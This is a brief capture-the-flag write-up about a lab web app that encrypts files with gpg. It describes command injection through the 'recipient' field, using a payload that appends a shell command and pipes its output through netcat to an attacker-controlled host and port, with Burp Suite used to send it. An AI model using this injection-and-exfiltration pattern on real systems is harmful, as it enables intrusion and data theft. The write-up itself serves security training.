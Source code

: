 After pivoting through their internal network, we have found yet another encryption tool. Can you hack into the server and extract the secret data? Our intel tells us that the app is using the gpg tool.
Start the machine below and access the web app at `http://MACHINE_IP:5000`.

---

- To encrypt files, the website uses the `gpg` tool (we know this from the response file extension)
[](img/2025-03-25 23_28_13-DarkMatter Encryptor - Brave.png)

- The website is vulnerable to command injection into the `recipient`
- the website first check if the recipient is a one from the list. so in malicious command we should use recipient like Cipher or another from list Then use `;` to separate it from our command.
- We add a malicious command that consists of two parts: one containing standard commands like `ls` or `cat`... and another using the `netcat` tool. We combine them using piping:  `Cipher ; malicious_command | nc YOUR_IP_ADDR 4444 ;`
- we can use burp suite to edit recipient input.
- Before send the payload, you need to set up a `Netcat listener` to receive the exfiltrated data.



![[2025-03-25 23_55_52-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]

>response 

![[2025-03-26 00_01_17-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]
> the exploitation is work and , we find the flag file , now we need just to `cat` content of flag file

![[2025-03-26 00_04_09-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]

![[2025-03-26 00_05_32-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]




